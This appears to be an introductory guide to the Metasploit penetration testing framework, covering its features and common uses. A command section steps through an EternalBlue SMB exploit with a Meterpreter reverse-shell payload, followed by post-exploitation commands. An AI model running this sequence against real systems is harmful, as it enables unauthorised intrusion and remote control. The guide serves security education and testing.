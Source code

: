 ## Overview of Metasploit

Metasploit is a powerful open-source penetration testing framework that provides security professionals and ethical hackers with tools for discovering, exploiting, and validating vulnerabilities in systems and applications. It is widely regarded as one of the most comprehensive and versatile platforms for penetration testing, offering a vast array of exploits, payloads, and auxiliary modules.

### Key Features

1. **Exploit Development**: Metasploit allows users to develop and test exploits against various vulnerabilities in software and systems. It includes a rich library of pre-built exploits for different platforms and applications.

2. **Payloads**: The framework supports a wide range of payloads, which are the code that runs on the target system after a successful exploit. This includes reverse shells, bind shells, Meterpreter sessions, and more.

3. **Auxiliary Modules**: In addition to exploits, Metasploit includes auxiliary modules for tasks such as scanning, fuzzing, and brute-forcing. These modules help users gather information and perform various security assessments.

4. **Post-Exploitation**: After gaining access to a target system, Metasploit provides tools for post-exploitation activities, such as privilege escalation, data exfiltration, and maintaining access.

5. **Database Integration**: Metasploit can integrate with databases to store and manage information about discovered vulnerabilities, targets, and sessions, facilitating better organization and reporting.

6. **Community Contributions**: The Metasploit community actively contributes modules, exploits, and updates, ensuring that the framework remains current with the latest vulnerabilities and attack techniques.

7. **User Interface Options**: Metasploit offers multiple interfaces, including a command-line interface (msfconsole), a web-based interface (Metasploit Community), and a graphical user interface (Armitage), catering to different user preferences.

### Common Use Cases

- **Penetration Testing**: Security professionals use Metasploit to conduct penetration tests, identifying and exploiting vulnerabilities in systems and applications to assess security posture.

- **Vulnerability Assessments**: Organizations can use Metasploit as part of vulnerability assessments to identify weaknesses in their infrastructure and applications.

- **Security Research**: Researchers and developers can leverage Metasploit to study vulnerabilities, develop new exploits, and test security measures.

- **Training and Education**: Metasploit is widely used in cybersecurity training programs to teach students about penetration testing techniques and methodologies.

### Example Commands

1. **Starting Metasploit Console**:
   To start the Metasploit console, use the following command:
   ```
   msfconsole
   ```

2. **Searching for Exploits**:
   To search for a specific exploit, use the `search` command:
   ```
   search type:exploit name:windows
   ```

3. **Using an Exploit**:
   To use a specific exploit, first select it with the `use` command:
   ```
   use exploit/windows/smb/ms17_010_eternalblue
   ```

4. **Setting Options**:
   After selecting an exploit, set the required options, such as the target IP address:
   ```
   set RHOSTS 192.168.1.10
   set RPORT 445
   ```

5. **Choosing a Payload**:
   Select a payload to use with the exploit:
   ```
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 192.168.1.5
   set LPORT 4444
   ```

6. **Running the Exploit**:
   Execute the exploit with the `exploit` command:
   ```
   exploit
   ```

7. **Post-Exploitation Commands**:
   Once a session is established, you can use various Meterpreter commands, such as:
   ```
   sysinfo
   getuid
   shell
   ```

### Considerations

While Metasploit is a powerful tool for penetration testing, it should be used ethically and responsibly. Unauthorized use of Metasploit against systems without permission is illegal and can lead to severe consequences. Always ensure that you have explicit authorization before conducting any testing activities.

In summary, Metasploit is an essential framework for penetration testers and security professionals, providing a comprehensive suite of tools for discovering, exploiting, and validating vulnerabilities. Its extensive library of exploits, payloads, and auxiliary modules, combined with its user-friendly interfaces, make it a valuable resource in the field of cybersecurity.